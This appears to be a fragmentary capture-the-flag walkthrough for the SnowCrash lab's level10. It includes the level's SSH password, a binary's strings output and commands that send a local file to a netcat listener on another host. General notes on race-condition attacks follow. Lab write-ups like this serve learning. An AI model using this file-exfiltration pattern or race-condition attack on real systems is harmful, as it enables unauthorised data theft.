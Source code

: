 ssh level10@ip -p 4242
password: s5cAJpM8ev6XHw998pRWG728z


strings level10

```
%s file host
	sends file to host if you have access to it
Connecting to %s:6969 ..
Unable to connect to host %s
.*( )*.
Unable to write banner to host %s
Connected!
Sending file ..
Damn. Unable to open file
Unable to read from file: %s
wrote file!
You don't have access to %s
```

```
echo "test" > /tmp/test
level10@SnowCrash:~$ ./level10 /tmp/test 10.12.10.14
Connecting to 10.12.10.14:6969 .. Connected!
Sending file .. wrote file!
```
on the host:
```
nc -l 6969
.*( )*.
test
```

```
level10@SnowCrash:~$ echo "`getflag`" > /tmp/test
level10@SnowCrash:~$ ./level10 /tmp/test 10.12.10.14

nc -l 6969
.*( )*.
Check flag.Here is your token :
Nope there is no token here for you sorry. Try again :)
```





race condition = use one code several times

When you make the web page perform some action that should be done only once, but if the action is done several times you will be benefited, you really need to try a Race condicion.
Most of the time this is directly related with money (if an action is made you get X money, so let's try to make it several time very quickly).


Race condition is architectural vulnerability of a multi-threaded application, in which the application operation depends on the order in which the parts of the code are executed.


A race condition is when two or more requests are sent at the same millisecond to an API. When an API does not have a mechanism to handle this scenario, it can lead to the API processing the requests in an unintended manner.

This attack is named “Race Condition” because it is a race between how fast an attacker sends requests to modify a resource and how fast the application updates that particular resource.

https://labs.detectify.com/2021/08/10/how-to-hack-apis-in-2021/